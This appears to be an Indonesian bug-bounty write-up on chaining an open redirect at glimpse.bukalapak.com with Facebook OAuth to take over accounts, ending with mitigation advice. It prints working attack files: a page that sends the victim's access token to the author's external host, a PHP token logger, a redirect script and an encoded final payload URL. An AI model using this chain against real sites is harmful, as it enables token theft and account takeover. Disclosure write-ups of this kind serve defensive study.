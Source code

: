 ```yaml
---
title: Open redirect & Account Takeover pada bukalapak.com
date: 2019-01-21 01:38:00 +0000
comments: true
tags:
- Bugbounty
mathjax: false
category:
- Bugbounty
private: false

---
```

### Open Redirect  

Open Redirect adalah kerentanan dimana aplikasi menerima input dari pengguna yang akan digunakan untuk perpindahan halaman atau redirect pada aplikasi dan tidak mempunyai filter terhadap input yang akan di gunakan sebagai redirect tersebut yang menyebabkan penyalahgunaan fitur tersebut.   

### Account Takeover 

Account Takeover adalah mengambil alih akses akun orang lain, untuk melakukan account takeover bisa menggunakan berbagai macam cara, salah satunya adalah yang akan dijelaskan pada report ini yaitu menggabungkan Open Redirect dengan Token stealing sehingga dapat mengambil alih akses terhadap akun yang dimiliki orang lain.  

###  Kesimpulan Masalah   

Open redirect yang ditemukan ada pada domain glimpse.bukalapak.com dengan parameter link, contoh open redirect nya adalah : [https://glimpse.bukalapak.com/redirect?link=https://evil.com](https://glimpse.bukalapak.com/redirect?link=https://evil.com "https://glimpse.bukalapak.com/redirect?link=https://evil.com") tapi karena bukalapak tidak menerima open redirect yang meliki impact keamanan yang kecil.  

![](/uploads/redir.PNG)

dari situ saya mencoba mengabungkan kelemahan tersebut agar bisa menjadi crictical secara dapat melakukan takeover akun yang dimiliki orang lain, saya memanfaatkan fitur login dengan facebook yang berada di url berikut:   

    https://www.facebook.com/v3.0/dialog/oauth?client_id=727108917352926&redirect_uri
    =https%3A%2F%2Fctfs.me&response_type=token

Oauth facebook memiliki 3 parameter yang seharusnya ada para requestnya yaitu **client_id** dimana **727108917352926** adalah ID milik applikasi bukalapak di facebook , kemudian **redirect_uri** adalah url yang akan menerima callback dari facebook **Yang hanya bisa di arahkan kepada domain milik bukalapak yaitu *.bukalapak.com** , karena kita sudah memiliki open redirect maka attack scenario ini dapat mudah dijalankan, jika kita menggunakan domain selain bukalapak sebagai **redirect_uri** nya maka kita akan mendapatkan error berikut :   

![](/uploads/error.PNG)

Skenario yang saya buat untuk melancarkan attack ini adalah sebagai berikut :   

![](/uploads/skenario.PNG)

saya menggunakan 3 file berikut untuk mendapatkan token dari user, tanpa adanya user interaction sama sekali hingga tokennya tersimpan di dalam log yang saya persiapkan.   

    //file save.php
    <?php
    $file = fopen("token_facebook_log.txt","a");
    fwrite($file,@$_GET['data']."\n");
    fclose($file);
    ?>
    

    //file steal.html
    <h2> 😈😈😈</h2>
    <script>
     let token = window.location.hash.substring(1);
     //alert("YOUR TOKEN IS MINE: "+token);
     const Http = new XMLHttpRequest();
     const url='https://security.ctfs.me/save.php?data='+token;
     Http.open("GET", url);
     Http.send();
     Http.onreadystatechange=(e)=>{
     console.log(Http.responseText)
     }
    </script>
    <meta http-equiv="refresh" content="1; url=https://bukalapak.com" />

    //file trusted.php
    <?php
    header("Location:
    https://www.facebook.com/v3.0/dialog/oauth?client_id=727108917352926&redirect_uri
    =https%3A%2F%2Fglimpse.bukalapak.com%2Fredirect%3Flink%3Dhttps://security.ctfs.me
    /steal.html&response_type=token&scope=email%2C+groups_access_member_info%2C+p
    ublish_to_groups%2C+user_age_range%2C+user_birthday%2C+user_events%2C+user_fri
    ends%2C+user_gender%2C+user_hometown%2C+user_likes%2C+user_link%2C+user_loca
    tion%2C+user_photos%2C+user_posts%2C+user_tagged_places%2C+user_videos%2C+pu
    blish_actions%2C+manage_pages%2C+instagram_basic");
    ?>

Untuk validasi token yang kita dapatkan ke facebook bisa menggunakan [https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2](https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2 "https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2"), dan saya bisa mendapatkan token dengan waktu expired NEVER Jika origin nya menggunakan Mobile dengan authentikasi menggunakan aplikasi bukalapak.

![](/uploads/debug.PNG)  

    // Final Payload
    https://glimpse.bukalapak.com/redirect?link=%68%74%74%70%73%3a%2f%2f%73%65%6
    3%75%72%69%74%79%2e%63%74%66%73%2e%6d%65%2f%74%72%75%73%74%65%64
    %2e%70%68%70

User tidak diperlukan melakukan apapun **jika sudah terauthentikasi bukalapaknya dengan facebook** (jika belum maka applikasi bukalapak akan meminta izin ke facebook) dan kemudian token user tersebut dapat steal.

###  Saran

Untuk mitigasi celah keamanan ini bisa dengan menerapkan whitelist terhadap redirect yang ada pada glimpse.bukalapak.com atau merubah konfigurasi applikasi facebooknya agar hanya menerima domain tertentu saja, jangan ***.bukalapak.com**.

> Akhir kata semoga diantara kita tidak takut untuk sharing karena sharing tidak akan membuat kita miskin melainkan sebaliknya akan membuat kita lebih dalam segala hal, semoga hari kita menyenangkan terutama yang membaca tulisan ini :D